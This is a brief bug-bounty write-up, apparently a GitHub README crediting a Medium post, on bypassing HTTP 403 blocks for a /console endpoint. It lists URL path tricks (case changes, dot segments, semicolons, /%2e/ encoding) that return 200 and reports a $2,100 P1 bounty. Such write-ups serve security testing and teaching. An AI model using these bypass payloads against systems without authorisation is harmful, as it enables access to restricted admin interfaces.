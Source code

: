 # ***Bypassing 403s like a PRO! ($2,100)***

*1. As usual, I begin my directory enumeration with the dirbuster wordlists and find a /console endpoint which returns a 403 response.*
*2. Ways to bypass 403 endpoints (If /path is blocked)*
```
/path –> HTTP 403 Forbidden
/PATH –> HTTP 200 OK
/path/ –> HTTP 200 OK
/path/. –> HTTP 200 OK
//path// –> HTTP 200 OK
/./path/.. –> HTTP 200 OK
/;/path –> HTTP 200 OK
/.;/path –> HTTP 200 OK
//;//path –> HTTP 200 OK
/path.json –> HTTP 200 OK
```
*3. I prefer using the 403 Bypasser Burp extension by Gil Nothmann to automate the bypass techniques.*
*4. What worked for me? Usage of a dot or %2e in the URL path:  `/%2e/console`*
## *The submission was triaged quickly and categorized as a P1. I was later rewarded with a $2,100 bounty.*<br>
<br>&nbsp;

----
## ***Credit***
Based on [Shrirang Diwakar](https://shrirangdiwakar.medium.com/bypassing-403s-like-a-pro-2-100-broken-access-control-66beef4afa8c)'s writeup.

----
## ***Support***
You can Follow [me](https://www.linkedin.com/in/bhavesh-pardhi-/) on LinkedIn or
<br><br>[![Buy Me a Coffee](https://img.shields.io/badge/Buy%20Me%20a%20Coffee-Support-orange?style=for-the-badge&logo=buy-me-a-coffee)](https://www.buymeacoffee.com/bhaveshpardhi)
